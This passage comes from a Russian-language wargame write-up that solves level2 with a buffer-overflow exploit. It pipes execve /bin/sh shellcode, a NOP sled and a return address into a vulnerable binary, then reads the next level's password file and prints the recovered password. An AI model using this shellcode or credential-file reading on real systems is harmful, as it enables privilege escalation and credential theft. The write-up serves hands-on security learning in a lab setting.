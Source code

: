 В этом задании я буду использовать тот же shellcode, что и на предыдущем уровне ([shellcode из level1](#shellcode)).

```sh
# http://shell-storm.org/shellcode/files/shellcode-237.html
(echo $(python -c 'print "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1" + "\x90" * 48 + "\x08\xa0\x04\x08"'); cat) | ./level2
# ||
# \/
# h̀hh��hj
#        X1�Rh//shh/bin��RS���ᐐ�����������������������������������������
whoami
# ||
# \/
# level3
cat /home/user/level3/.pass
# ||
# \/
# 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
Уровень пройден!
```sh
su level3
# Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

<details><summary> Под этой строкой в развороте исходник и команда для компиляции: </summary></details> 


#
###### [вернуться к содержанию](#content)
<a name="lvl3"></a> 
# level3



![level3](./README/level3.png)



Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary></details>
<details><summary> getfacl level3 </summary>
